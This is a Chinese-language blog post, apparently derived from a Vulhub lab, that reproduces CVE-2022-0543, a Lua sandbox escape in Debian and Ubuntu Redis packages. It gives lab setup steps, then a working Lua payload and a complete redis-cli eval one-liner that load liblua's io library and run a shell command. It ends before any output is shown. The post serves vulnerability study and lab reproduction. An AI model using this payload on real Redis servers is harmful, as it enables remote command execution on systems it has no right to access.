



# Redis Lua 沙盒绕过命令执行（CVE-2022-0543） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283228.html`](https://www.cnblogs.com/NoCirc1e/p/16283228.html)

Redis 是著名的开源 Key-Value 数据库，其具备在沙箱中执行 Lua 脚本的能力。

Debian 以及 Ubuntu 发行版的源在打包 Redis 时，不慎在 Lua 沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库 liblua 里的函数，进而逃逸沙箱执行任意命令。

参考链接：

*   [`www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce`](https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce)
*   [`bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787`](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787)

## 漏洞环境

执行如下命令启动一个使用 Ubuntu 源安装的 Redis 5.0.7 服务器：

```
docker-compose up -d 
```



服务启动后，我们可以使用`redis-cli -h your-ip`连接这个 redis 服务器。



## 漏洞复现

我们借助 Lua 沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在 Lua 中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的 liblua 库路径不同，你需要指定一个正确的路径。在我们 Vulhub 环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接 redis，使用`eval`命令执行上述脚本：

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

可见命令已成功执行：

